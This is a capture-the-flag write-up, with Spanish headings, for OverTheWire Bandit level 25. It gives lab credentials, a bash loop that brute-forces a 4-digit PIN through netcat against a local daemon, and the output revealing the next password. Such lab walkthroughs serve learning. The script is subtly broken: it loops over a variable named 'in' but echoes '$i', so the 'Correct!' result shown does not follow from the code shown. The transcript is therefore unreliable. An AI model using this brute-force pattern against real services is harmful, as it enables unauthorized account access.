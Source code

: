 # Level 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
User: bandit24
Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Host: bandit.labs.overthewire.org  
Port: 2220

## Solución
```
bandit24@bandit:~$ cd /tmp/42101656
bandit24@bandit:/tmp/42101656$ nano script.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/42101656$ cat script.sh
#!/bin/bash

for in in {0000..9999};
do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i";
done
bandit24@bandit:/tmp/42101656$ ls -l
total 4
-rw-rw-r-- 1 bandit24 bandit24 90 Feb 27 21:41 script.sh
bandit24@bandit:/tmp/42101656$ chmod +x script.sh
bandit24@bandit:/tmp/42101656$ ./script.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:/tmp/42101656$
```
## Notas adicionales

## Referencias
